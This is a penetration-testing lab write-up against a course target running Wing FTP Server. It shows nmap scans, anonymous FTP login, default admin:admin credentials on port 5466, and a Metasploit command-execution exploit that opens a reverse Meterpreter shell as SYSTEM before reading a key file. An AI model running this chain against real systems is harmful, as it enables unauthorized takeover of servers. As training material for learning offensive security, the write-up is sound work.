 # Pentest 2 - Steven - 36 - 10.14.1.36

### Scanning  
First we will capture our report to 2/initial
                                         
```bash
nmap -Pn -sC -sV -oN 2/initial $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:07 EDT
Nmap scan report for 10.14.1.36
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Wing FTP Server
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| Status for user anonymous:
|     Connected for 0 minutes, 2 seconds
|     2 users online.
|     Uploaded 0 files, 0.000 KB, 0.000 KB/sec average
|     Downloaded 0 files, 0.000 KB, 0.000 KB/sec average
|_End of status.
80/tcp open  http    Wing FTP Server(Ferdi Bak)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not found
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: application/octet-stream
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.0 200 HTTP OK
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: text/html
|     Content-Length: 316
|     Connection: close
|     <noscript><center><H2>The web client requires that you have Javascript enabled on your browser.<br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a></H2></center></noscript>
|_    <meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='login.html';</script>
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Wing FTP Server(Ferdi Bak)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

So we see FTP and 80 (http) open  
Additionally, we can see it's using "Wing FTP Server"  
Lets search and see if there is anything in searchsploit.  
Additionally since it's open on port 80, lets see if there is anything on the page?  
![Image1](/VHL/Reports/002/2_1.png)

Let's also see if we can determine what OS is being used:
```bash
sudo nmap -A -p 21,80 -Pn $STEVEN 
OS details: Microsoft Windows Server 2008 or 2008 Beta 3, Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows 8.1 R1, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7, Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008
```
So at this point we are guessing this is a windows server.  
Let's see what searchsploit and exploit-db have?  

```searchsploit wing
Wing FTP Server - (Authenticated) Command Execution (Metasploit)                                              | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                                                           | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                                                            | multiple/webapps/10821.txt
Wing FTP Server 6.0.7 - Unquoted Service Path                                                                 | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                                                                  | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                                                                  | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)                                                 | lua/webapps/48676.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)                                           | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities                                                        | windows/webapps/36861.txt
```

Since we know anonymous ftp is allowed, maybe we can try that?  
![Image2](/VHL/Reports/002/2_2.png)

So we know that we can get into the server using anonymous login (with no password). 
Can we do anything with this?   
I can't tell what version it is using despite being in the page.   
As an anonymous user, I don't have permissions to upload.  
Let's see if the exploits yield any success?  

Metasploit shows 1 good option:  
```bash
search wing
   11  exploit/windows/ftp/wing_ftp_admin_exec         2014-06-19       excellent  Yes    Wing FTP Server Authenticated Command Execution
```

This required admin credentials - I realized I didn't have admin credentials, and would not be able to utilize this exploit currently.  
Reviewing the internet for "Wing FTP server" however, tells me port 5466 and 7466 are also commonly used ports.  
Lets scan to see if these yield anything?  

```bash
sudo nmap -sS -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:43 EDT
Nmap scan report for 10.14.1.36
Host is up (0.16s latency).

PORT     STATE    SERVICE
5466/tcp open     unknown
7466/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds
```

Indeed!  Let's see what is there.

```bash
sudo nmap -sV -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:44 EDT
Nmap scan report for 10.14.1.36
Host is up (0.31s latency).

PORT     STATE    SERVICE VERSION
5466/tcp open     unknown
7466/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5466-TCP:V=7.92%I=7%D=7/27%Time=64C2F367%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1E7,"HTTP/1\.0\x20200\x20HTTP\x20OK\r\nServer:\x20Wing\x20FT
```

It looks like we are getting a page response from one of these, so can we pull a page?  
10.14.1.36:7466 yields nothing , but 10.14.1.36:5466 gives us the admin page!  
Lets try admin:admin?   
Wow, I didn't expect that to work…  
![Image3](/VHL/Reports/002/2_3.png)

So right now, we have both a metasploit that can take an admin user/password, as well as FTP webpage administrator access.  
Lets try metasploit first to see where this gets us?  
```bash
msfconsole
use windows/ftp/wing_ftp_admin_exec
Show options -> 
Module options (exploit/windows/ftp/wing_ftp_admin_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Admin password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5466             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   USERNAME                   yes       Admin username
   VHOST                      no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wing FTP Server >= 3.0.0

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set password admin
password => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set username admin
username => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 10.14.1.36
RHOST => 10.14.1.36

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] Found Wing FTP Server 4.3.8
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Executing payload via PowerShell...
[*] Sending stage (175174 bytes) to 10.14.1.36
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.36:43156 ) at 2023-07-27 18:55:44 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : STEVEN-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Searching for the key

From here, attempted to search for key.txt:  
```bash
search -f *key.txt
No files matching your search were found.
```

Ok, nothing returned, lets check the paths from the provided / listed for the course?
```bash
ls "C:\Documents and Settings\Administrator\Desktop"
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-05-22 06:22:27 -0400  desktop.ini
100666/rw-rw-rw-  20    fil   2017-05-22 06:23:21 -0400  key.txt.txt

meterpreter > cat C:\Documents and Settings\Administrator\Desktop\key.txt.txt
t70m5jaco2zy9vhqlb6s
meterpreter > 
```

There we go!
